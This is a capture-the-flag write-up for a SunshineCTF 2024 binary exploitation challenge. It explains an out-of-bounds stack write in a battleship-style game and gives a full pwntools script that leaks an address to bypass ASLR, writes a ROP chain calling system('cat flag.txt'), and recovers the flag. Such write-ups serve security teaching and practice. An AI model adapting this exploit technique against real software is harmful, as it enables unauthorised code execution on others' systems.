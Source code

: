 https://ctftime.org/event/2485

# Adventure! On the High C! (pwn)

Set sail on a perilous journey through treacherous C waters, where misplaced cannons are the least of your concerns. Your mission? Board the “Adventure on the High C!” and lay siege to your enemies. Navigate your way through the fog of pointers, but beware: one wrong move, and you might just blow a hole in your own stack!

Competitors are encouraged to develop their exploit in the Docker Container (uncomment the lines in the Dockerfile if youd like to build a development container with pwntools, pwndbg, and gdb.)

nc 2024.sunshinectf.games 24003

## Analysis

`main` @ `0x?`
- The game has well-telegraphed-bug that allows you to perform a 1 byte write outside the bounds of the board memory
    - The board is stored on the stack and so this write is relative to the stack
- The address to write is computed like this `local_218[(long)row + (long)column * 0x10] = local_219;`
    - This means that if we supply `0` for `column` we can simply provide a linear offset from the stack with the value of `row`
- `0x1681` writes the byte we supply to the address we chose
- Helpfully this bug also reports the value of the byte that existed in memory prior to the write
    - This allows us to read bytes from the stack if we know their offset at the time the read is performed

`cat flag.txt\x00` @ `0x2a1c`
- As a part of the ASCII art we have a few useful strings
- `cat flag.txt\x00` works well with `/bin/sh`

## Solution

1) Use the out of bounds access to the game board to construct read/write primitives
2) Read an address at offset `-24`, namely `0x15e3`, from the stack to bypass ASLR on the main image
3) Write a ropchain to stack starting at the return address which is at offset `0x218`
4) End the game early passing control of `rip` to the ropchain by writing to the byte checked in the while loop at offset `0x20c`

```python
#!/usr/bin/env python3

from pwn import *

# note: this exploit needs to be run a few times on the remote

#context.log_level = "debug"
elf = ELF("./ship.bin", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("2024.sunshinectf.games", 24003)

def read8(where):
    what = 0
    for i in range(8):
        p.sendlineafter(b"Enter the row (0-9, a-f) >>> ", str(0).encode())
        p.sendlineafter(b"Enter the column (0-9, a-f) >>> ", str(where + i).encode())
        p.sendlineafter(b"Custom (C) >>> ", b"A")
        p.readuntil(b"Fired outside board, corrupting")
        what |= int(p.readline().decode().split(" ")[3], 16) << (8 * i)
    return what

def writeN(where, what):
    for i in range(len(what)):
        p.sendlineafter(b"Enter the row (0-9, a-f) >>> ", str(0).encode())
        p.sendlineafter(b"Enter the column (0-9, a-f) >>> ", str(where + i).encode())
        p.sendlineafter(b"Custom (C) >>> ", p8(what[i]))
        p.readuntil(b"Fired outside board, corrupting")

leak = read8(-24)
base = leak - 0x15e3
log.success(f"base: {hex(base)}") # bypass aslr

RET_ADDR_OFFSET = 0x218
POP_RDI = 0x1754 + base
CAT_FLAG_DOT_TXT = 0x2a1c + base
CALL_SYSTEM = 0x1760 + base

payload = b""
payload += p64(POP_RDI)
payload += p64(CAT_FLAG_DOT_TXT)
payload += p64(CALL_SYSTEM)
writeN(RET_ADDR_OFFSET, payload) # system("cat flag.txt")

KEEP_GOING_OFFSET = 0x20c
writeN(KEEP_GOING_OFFSET, p8(1)) # end the game early
p.readuntil(b"!")

p.interactive() # sun{v1ct0RY_on_Th3_High_s34}
```

## Flag
`sun{v1ct0RY_on_Th3_High_s34}`

smiley 2024/10/20
